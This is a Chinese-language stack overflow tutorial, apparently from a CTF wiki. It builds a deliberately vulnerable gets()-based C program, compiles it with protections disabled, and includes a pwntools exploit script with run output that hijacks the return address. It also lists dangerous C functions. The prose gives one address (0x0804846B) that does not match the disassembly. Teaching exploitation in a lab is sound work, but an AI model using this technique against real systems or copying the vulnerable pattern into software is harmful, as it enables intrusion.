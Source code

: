 # 栈溢出原理

## 介绍

栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致栈中与其相邻的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞(比如说，还有向堆中写，向bss段写)。而对于黑客来说，栈溢出漏洞轻则可以使得程序崩溃，重则可以使得攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是

- 程序必须向栈上写入数据。
- 写入的数据大小没有被良好地控制。

## 基本示例

最典型的栈溢出利用是覆盖程序的返回地址为攻击者所控制的地址，**当然需要确保这个地址的代码可以执行**。下面，我们举一个简单的例子：

```C
##include <stdio.h>
##include <string.h>
void success() { puts("You Hava already controlled it."); }
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

这个程序的主要目的读取一个字符串，并将其输出。**我们希望可以控制程序执行success函数。**

我们利用如下命令对齐进行编译

```shell
➜  stack-example gcc -m32 -fno-stack-protector stack_example.c -o stack_example 
stack_example.c: In function ‘vulnerable’:
stack_example.c:6:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
   gets(s);
   ^
/tmp/ccPU8rRA.o：在函数‘vulnerable’中：
stack_example.c:(.text+0x27): 警告： the `gets' function is dangerous and should not be used.
```

可以看出gets本身是一个危险函数。而它因为其从不检查输入字符串的长度，而是以回车来判断是否输入结束，所以很容易可以导致栈溢出，

> 历史上，**莫里斯蠕虫**第一种蠕虫病毒就利用了gets这个危险函数实现了栈溢出。

此外，`-m32` 指的是生成32位程序； `-fno-stack-protector` 指的是不开启堆栈溢出保护，即不生成canary。此外，为了更加方便地介绍栈溢出的基本利用方式，这里还需要关闭PIE保护，避免加载基址被打乱。不同gcc版本对于PIE的默认配置不同，我们可以使用命令`gcc -v`查看gcc默认的开关情况。如果含有`--enable-default-pie`参数则代表PIE默认已开启，需要在编译指令中添加参数`-no-pie`。可以使用checksec检查编译出的文件：
```
➜  stack-example checksec stack_example
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
确认栈溢出和PIE保护关闭后，我们利用IDA来反编译一下二进制程序并查看vulnerable函数 。可以看到

```C
int vulnerable()
{
  char s; // [sp+4h] [bp-14h]@1

  gets(&s);
  return puts(&s);
}
```

该字符串距离ebp的长度为0x14，那么相应的栈结构为

```text
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

并且，我们可以通过IDA获得success的地址，其地址为0x0804846B。

```asm
.text:0804843B success         proc near
.text:0804843B                 push    ebp
.text:0804843C                 mov     ebp, esp
.text:0804843E                 sub     esp, 8
.text:08048441                 sub     esp, 0Ch
.text:08048444                 push    offset s        ; "You Hava already controlled it."
.text:08048449                 call    _puts
.text:0804844E                 add     esp, 10h
.text:08048451                 nop
.text:08048452                 leave
.text:08048453                 retn
.text:08048453 success         endp
```

那么如果我们读取的字符串为

```
0x14*'a'+'bbbb'+success_addr
```

那么，由于gets会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将saved ebp覆盖为bbbb，将retaddr覆盖为success_addr，即，此时的栈结构为

```text
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

但是需要注意的是，由于在计算机内存中，对应的每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B的存储是如下结构

```text
\x3b\x84\x04\x08
```

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候\，x等也算一个单独的字符。。所以我们需要想办法将\x3b之类的作为一个字符输入进去。那么此时我们就需要使用一波pwntools了(关于如何安装以及基本用法，请自行github)，这里利用pwntools的代码如下：

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x0804843b
## 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
print p32(success_addr)
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```

执行一波代码，可以得到

```shell
➜  stack-example python exp.py
[+] Starting local process './stack_example': pid 61936
;\x84\x0
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
You Hava already controlled it.
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
[*] Got EOF while sending in interactive
```

可以看到我们确实已经执行success函数。

## 小总结

上面的示例其实也展示了栈溢出中比较重要的几个步骤:

### 寻找危险函数

通过寻找危险函数，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。

常见的危险函数如下

-   输入
    -   gets，直接读取一行，忽略'\x00'
    -   scanf
    -   vscanf
-   输出
    -   sprintf
-   字符串
    -   strcpy，字符串复制，遇到'\x00'停止
    -   strcat，字符串拼接，遇到'\x00'停止
    -   bcopy

### 确定填充长度

这一部分主要是计算**我们所要操作的地址与我们所要覆盖的地址的距离**。常见的操作方法就是打开IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式

- 相对于栈基地址的的索引
- 相对应栈顶指针的索引
- 直接地址索引

其中相对于栈基地址的索引，可以直接通过查看EBP相对偏移获得；相对于栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种问题。通过绝对地址索引的，就相当于直接给定了地址。一般来说，我们会有如下的覆盖需求

- **覆盖函数返回地址**，这时候就是直接看EBP即可。
- **覆盖栈上某个变量的内容**，这时候就需要更加精细的计算了。
- **覆盖bss段某个变量的内容**。
- 等等

之所以我们想要覆盖某个地址，是因为我们想通过覆盖地址的方法来直接或者间接地控制程序执行流程。

**参考阅读**

[stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow)

http://bobao.360.cn/learning/detail/3694.html

